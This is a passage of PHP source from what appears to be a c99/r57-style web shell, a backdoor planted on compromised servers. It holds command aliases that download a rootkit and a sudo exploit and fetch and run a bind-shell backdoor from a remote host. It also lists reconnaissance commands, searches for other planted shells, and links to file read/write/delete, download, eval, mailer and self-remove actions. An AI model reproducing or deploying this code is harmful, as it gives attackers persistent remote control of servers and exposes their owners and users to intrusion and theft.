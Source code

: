     array("wget RatHole 1.2 (Linux & BSD)","wget http://packetstormsecurity.org/UNIX/penetration/rootkits/rathole-1.2.tar.gz"),
    array("wget & run BindDoor","wget ".$sh_mainurl."bind.tgz;tar -zxvf bind.tgz;./4877"),
    array("wget Sudo Exploit","wget http://www.securityfocus.com/data/vulnerabilities/exploits/sudo-exploit.c"),
  );
}
else {
  $cmdaliases = array(
    array("", "dir"),
    array("Find index.php in current dir", "dir /s /w /b index.php"),
    array("Find *config*.php in current dir", "dir /s /w /b *config*.php"),
    array("Find c99shell in current dir", "find /c \"c99\" *"),
    array("Find r57shell in current dir", "find /c \"r57\" *"),
    array("Find exshell in current dir", "find /c \"ex\" *"),
    array("Show active connections", "netstat -an"),
    array("Show running services", "net start"),
    array("User accounts", "net user"),
    array("Show computers", "net view"),
  );
}
## PHP FILESYSTEM TRICKS (By eX) ##
$phpfsaliases = array(
    array("Read File", "read", 1, "File", ""),
    array("Write File (PHP5)", "write", 2, "File","Text"),
    array("Copy", "copy", 2, "From", "To"),
    array("Rename/Move", "rename", 2, "File", "To"),
    array("Delete", "delete", 1 ,"File", ""),
    array("Make Dir","mkdir", 1, "Dir", ""),
    array("Download", "download", 2, "URL", "To"),
    array("Download (Binary Safe)", "downloadbin", 2, "URL", "To"),
    array("Change Perm (0755)", "chmod", 2, "File", "Perms"),
    array("Find Writable Dir", "fwritabledir", 2 ,"Dir"),
    array("Find Pathname Pattern", "glob",2 ,"Dir", "Pattern"),
);
## QUICK LAUNCH ##
$quicklaunch1 = array(
    array("&lt;img src=\"".$surl."act=img&img=home\" alt=\"Home\" border=\"0\"&gt;",$surl),
    array("&lt;img src=\"".$surl."act=img&img=back\" alt=\"Back\" border=\"0\"&gt;","#\" onclick=\"history.back(1)"),
    array("&lt;img src=\"".$surl."act=img&img=forward\" alt=\"Forward\" border=\"0\"&gt;","#\" onclick=\"history.go(1)"),
    array("&lt;img src=\"".$surl."act=img&img=up\" alt=\"Up\" border=\"0\"&gt;",$surl."act=ls&d=%upd&sort=%sort"),
    array("&lt;img src=\"".$surl."act=img&img=search\" alt=\"Search\" border=\"0\"&gt;",$surl."act=search&d=%d"),
    array("&lt;img src=\"".$surl."act=img&img=buffer\" alt=\"Buffer\" border=\"0\"&gt;",$surl."act=fsbuff&d=%d")
);
$quicklaunch2 = array(
    array("Security Info",$surl."act=security&d=%d"),
    array("Processes",$surl."act=processes&d=%d"),
    array("MySQL",$surl."act=sql&d=%d"),
    array("Eval",$surl."act=eval&d=%d"),
    array("Encoder",$surl."act=encoder&d=%d"),
    array("Mailer",$surl."act=fxmailer"),
    array("milw0rm",$millink),
    array("Md5-Lookup","http://darkc0de.com/database/md5lookup.html"),
    array("Toolz",$surl."act=tools&d=%d"),
    array("Kill-Shell",$surl."act=selfremove"),
    array("Feedback",$surl."act=feedback"),
